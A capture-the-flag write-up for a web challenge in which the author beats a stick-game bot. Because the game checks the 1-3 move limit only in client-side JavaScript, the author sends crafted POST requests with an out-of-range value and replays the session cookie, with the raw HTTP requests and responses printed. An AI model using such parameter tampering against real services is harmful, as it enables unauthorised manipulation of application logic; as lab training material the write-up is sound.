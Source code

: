 # Description

You’re up against The Bot—a relentless, merciless, cold-hearted machine that plays first. Why? Because I said so.

The Rules : (That You Must Obey !)

There are 20 sticks on the table. They stare at you. You stare back.
The bot always starts. No negotiations. This is my game, my rules.
On your turn, you can remove 1, 2, or 3 sticks. Choose wisely, mortal.
The player who takes the last stick LOSES. Meaning, if you pick up that final lonely stick… it's Game Over. And the bot laughs at you. Probably... 

# Solving

The challenge is about the stick game, you have to remove stick (1-3) turn by turn and the person how remove the last(s) one(s) loose, I first tried to legit play the game the issue is since the bot it starting he has 100% chances to win.

After checking the code we can see that the check for the max number of sticks (3) is checked localy :

```javascript
async function playTurn() {
  const playerChoice = document.getElementById("player_choice").value;
    if (!playerChoice || isNaN(parseInt(playerChoice)) || playerChoice < 1 || playerChoice > 3 ) {
      showAlert("Please select a number between 1 and 3.");
      return;
}
```
So i craft a request where i remove `12` sticks so it left `3` (bot play first and remove 3 (20-3=17).

```
POST /play HTTP/1.1
Host: chall3.midnightflag.fr:12491
Content-Length: 20
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://chall3.midnightflag.fr:12491
Referer: http://chall3.midnightflag.fr:12491/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJnYW1lIjoxN30.Z_qGGA.XhU1chxojYQkg4Y6MBtF3xg-xIk
Connection: keep-alive

{"player_choice":12}

---

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 68
Vary: Cookie
Set-Cookie: session=eyJnYW1lIjozfQ.Z_qHkA.B9yjgyYgCNVCMDdmg14C7F6Ye1A; HttpOnly; Path=/

{"board":["|","|","|"],"bot_move":2,"game_ended":false,"win":false}
```
We know just have to remove two so it let him one and he loose. To do that get the cookie given and replay it to resume party.

```
POST /play HTTP/1.1
Host: chall3.midnightflag.fr:12491
Content-Length: 19
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://chall3.midnightflag.fr:12491
Referer: http://chall3.midnightflag.fr:12491/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJnYW1lIjozfQ.Z_qHkA.B9yjgyYgCNVCMDdmg14C7F6Ye1A
Connection: keep-alive

{"player_choice":2}

---

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 82
Vary: Cookie
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; HttpOnly; Path=/

{"board":["|"],"flag":"MCTF{FAKE_FLAG_FOR_TESTING}","game_ended":true,"win":true}
```





